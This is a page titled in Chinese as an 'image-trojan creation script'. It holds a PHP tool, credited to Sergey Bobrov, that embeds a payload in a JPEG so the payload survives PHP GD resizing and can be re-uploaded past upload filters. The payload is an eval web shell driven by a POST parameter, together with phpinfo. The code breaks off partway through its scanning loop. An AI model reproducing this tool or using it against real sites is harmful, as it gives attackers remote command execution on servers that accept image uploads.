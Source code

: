 图片马制作脚本

```
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations
    caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed
    image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    php jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another 
    initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

    $a = '$_POST[eeeeeee]';
    $miniPayload = "<?php eval($a); ?><?php echo phpinfo(); ?>";
    /*$miniPayload = "<?php echo phpinfo(); ?>";*/
    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
```